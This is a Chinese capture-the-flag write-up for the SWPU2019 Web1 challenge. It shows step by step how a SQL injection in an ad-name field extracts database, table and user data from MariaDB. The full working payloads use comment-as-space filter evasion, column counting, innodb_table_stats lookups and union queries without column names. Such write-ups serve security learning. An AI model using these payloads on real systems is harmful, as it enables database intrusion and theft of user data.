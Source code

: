 
# [SWPU2019]Web1

首页注入的话会提示登陆失败的，直接注册用户登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/77287caa13e247eeb9a1495b8551f100.png)
申请文章的时候尝试注入
![在这里插入图片描述](https://img-blog.csdnimg.cn/3db82f5ce5f149778d9db821678ee836.png)
分别写了`admin'`和`root'`，发现广告名可以注入，显示使用的是'MariaDB'

or被过滤了，测列数用`group by`，注释符也不能用，其他师傅的博客都用了`逗号+引号`的方式闭合，不知道是什么原理，有知道的师傅可以解释一下吗？

`-1'/**/group/**/by/**/22,'`测到22列
![在这里插入图片描述](https://img-blog.csdnimg.cn/e951c7c9c9294df58dfe9b9573ba9c07.png)

显示列是`2,3`
MariaDB结构：
`https://mariadb.com/kb/en/mysqlinnodb_table_stats/`

利用`mysql.innodb_table_stats`查具体信息`database_name|table_name`
![在这里插入图片描述](https://img-blog.csdnimg.cn/b0c1704efd194938ae80398828a3d446.png)


查数据库名：
`-1'/**/union/**/select/**/1,version(),database(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22`

![在这里插入图片描述](https://img-blog.csdnimg.cn/22bbd56a21354c79ae65a116aa1211c8.png)
查表名：
`-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),database(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22`

![在这里插入图片描述](https://img-blog.csdnimg.cn/b93961f323044270a35c189e65cf895f.png)

判断`users`列数：
`-1'/**/union/**/select/**/1,(select/**/*/**/from/**/users/**/group/**/by/**/4),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22`

测出来是4列，接下来无列名注入

`-1'/**/union/**/select/**/1,(select/**/group_concat(a)/**/from/**/(select/**/1,2/**/as/**/a,3/**/as/**/b/**/union/**/select/**/*/**/from/**/users)x),database(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22`

![在这里插入图片描述](https://img-blog.csdnimg.cn/41810d234c884ecc847e3773be1941c3.png)
换成b列应该就能看到了
![在这里插入图片描述](https://img-blog.csdnimg.cn/6a78c687e4134833b0bb2be0d35faf1e.png)
# [NPUCTF2020]ReadlezPHP
